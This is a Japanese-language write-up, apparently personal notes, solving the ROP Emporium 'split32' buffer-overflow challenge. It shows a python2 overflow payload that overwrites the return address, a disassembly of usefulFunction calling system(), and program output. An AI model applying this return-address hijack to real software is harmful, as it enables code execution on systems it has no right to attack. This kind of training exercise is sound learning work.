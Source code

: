 ```
read(0,ebp-0x28,0x60)
```

前と同じぽいので、とりあえずもう一回pwnmeを繰り返して挙動を見てみた

```
❯ python2 -c "print 'A'*44 + '\xc3\x85\x04\x08'" | ./split32 
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
Contriving a reason to ask user for data...
> Thank you!
fish: Process 79230, './split32' from job 1, 'python2 -c "print 'A'*44 + '\xc…' terminated by signal SIGSEGV (Address boundary error)

```

期待通りの挙動をしたので、eipは取れてるっぽい

じゃぁusefulFunctionに飛ばして挙動を確認するか

```
0804860c <usefulFunction>:
 804860c:       55                      push   ebp
 804860d:       89 e5                   mov    ebp,esp
 804860f:       83 ec 08                sub    esp,0x8
 8048612:       83 ec 0c                sub    esp,0xc
 8048615:       68 0e 87 04 08          push   0x804870e
 804861a:       e8 c1 fd ff ff          call   80483e0 <system@plt>
 804861f:       83 c4 10                add    esp,0x10
 8048622:       90                      nop
 8048623:       c9                      leave  
 8048624:       c3                      ret    
 8048625:       66 90                   xchg   ax,ax
 8048627:       66 90                   xchg   ax,ax
 8048629:       66 90                   xchg   ax,ax
 804862b:       66 90                   xchg   ax,ax
 804862d:       66 90                   xchg   ax,ax
 804862f:       90                      nop


```

なのでここに飛ばす

```
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
flag.txt  peda-session-split32.txt  README.md  split32
fish: Process 80877, './split32' from job 1, 'python2 -c "print 'A'*44 + '\x0…' terminated by signal SIGSEGV (Address boundary error)

```

